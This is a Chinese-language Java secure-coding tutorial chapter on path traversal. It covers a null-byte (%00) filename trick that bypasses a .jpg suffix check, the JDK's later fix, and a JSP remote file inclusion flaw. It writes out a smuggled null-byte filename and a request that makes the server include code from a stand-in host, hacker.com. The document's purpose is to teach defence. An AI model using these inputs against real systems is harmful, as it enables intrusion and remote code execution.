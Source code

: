 #13.路径遍历漏洞二
  
  上一篇提过，下载或上传处理不当很容易造成任意文件下载漏洞和任意路径文件上传漏洞。
  
  其实，坑不仅仅只有这个。如果以下这些坑你没意识去主动避免，那么很有可能哪一天就掉进去了。

##13.1 绕开后缀判断

```java
// 请求路径：http://example.com?name=github.jsp%00.jpg
String name = request.getParameter("name");

if (name.matches(".*\\.jpg")) {
	File file = new File(name);
	file.createNewFile();

	System.out.println("规范路径 : " + file.getCanonicalPath());
}
```

在很多操作系统中，控制字符%00被用于注入到文件名中，例如下面这个URL：
```
http://example.com?name=github.jsp%00.jpg
```
在Java应用看来，改文件名是以.jpg结尾的，而操作系统在碰到%00就被截断了，所以操作系统只能看到的是以.jsp结尾的。这个攻击用于绕开应用程序对文件后缀的检查。 

__控制字符`%00-%1f`最初是用于控制硬件设备，控制字符在URL中是无意的。__

##13.1拓展阅读

其实13.1提高奥的攻击叫__Poison Null Byte__，不仅仅是Java，其实在其他语言中一样存在。参考：http://hakipedia.com/index.php/Poison_Null_Byte

Java在较新的版本中，已经修复了这个漏洞，代码如下：

```java
public class File {
 ...
 
 public boolean createNewFile() throws IOException {
 	 SecurityManager security = System.getSecurityManager();
 	 if(security != null) security.checkWrite(path);
 	 if(iwInvalid()){
 	   throw new IOEception("Invalid file path");
 	 }
 	 return fs.createFileExclusively(path);
 }
 
 final boolean isInvalid() {
    if (status == null) {
        status = (this.path.indexOf('\u0000') < 0) ? PathStatus.CHECKED
                                                   : PathStatus.INVALID;
    }
    return status == PathStatus.INVALID;
 }
}
```

如果pathame中存在控制字符NUL，则抛出IOEception异常。

##13.2 远程文件包含

有些蛋疼的程序员会在jsp标签中包含远程文件，当然，这不是关键，关键是允许用户传参指定包含的文件，这时候**远程文件包含**漏洞就出现了。如果远程包含的文件里面包含jsp代码，那么Web容器就会执行这段代码，从而导致了漏洞的发生。例如：

```jsp
<jsp:include page="<%=remotePage%>" flush="true"/>
```
请求如下：
> http://example.com/?remotePage=http://hacker.com/hook.jsp

结果是hook.jsp文件里面的恶意代码会被&lt;jsp:include&gt;标签包含并执行。

## 参考资料
 * https://www.owasp.org/index.php/Path_Traversal
 * http://www.w3schools.com/tags/ref_urlencode.asp
 * https://www.owasp.org/index.php/File_System#Path_traversal
